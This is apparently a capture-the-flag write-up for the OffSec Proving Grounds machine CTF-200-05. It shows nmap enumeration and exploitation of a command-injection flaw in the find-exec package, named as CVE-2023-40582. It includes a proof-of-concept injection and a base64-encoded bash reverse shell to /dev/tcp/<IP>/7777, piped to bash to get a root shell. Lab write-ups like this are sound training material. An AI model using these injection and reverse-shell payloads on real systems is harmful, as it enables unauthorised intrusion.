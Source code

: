 ```yaml
---
title: CTF-200-05 (OffSec. Proving Grounds)
image: /assets/writeups/trace8.jpg
description: Write-up of CTF-200-05 Machine
date: 2023-12-28
categories: [proving grounds]
tags: [find-exec, CVE, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Nmap scan report for 192.168.249.36 (192.168.249.36)
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    Node.js Express framework
|_http-title: Command Guess Game
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 3000:

Visiting Port 3000 we get greeted by this page


![port3000.png](../../assets/writeups/2023-12-27-CTF-200-05/port3000.png)

nothing too crazy here it just checks if the command exist,whats important here is to look at the bottom part of the webpage where it says `find-exec v1.0.2`

![find-execvuln.png](../../assets/writeups/2023-12-27-CTF-200-05/find-execvuln.png)

that package is vulnerable to `CVE-2023-40582` [Command Injection in find-exec | CVE-2023-40582 | Snyk](https://security.snyk.io/vuln/SNYK-JS-FINDEXEC-5876637)

> POC

```js
const findexec = require('find-exec');
findexec("; touch hacked")
```

so what it means is we can do something like `cat;id` and after the cat is executed it executes the id command too. Using that we get the reverse shell 

## Root User:

Initially I ran just simple `cat; nc <IP> 7777` which did got a callback but wasn't responsive so it must be `-e` switch of nc causing the problem so we can just encode the payload and send it again

```bash
echo "/bin/bash -i >& /dev/tcp/<IP>/7777 0>&1" | base64
L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=
```

and running that,

```bash
cat;echo "L2Jpbi9iYXNoIC1p{REDACTED}TY3Lzc3NzcgMD4mMQo=" | base64 -d | bash
```

we get a perfect root shell

![perfectrootshell.png](../../assets/writeups/2023-12-27-CTF-200-05/perfectrootshell.png)




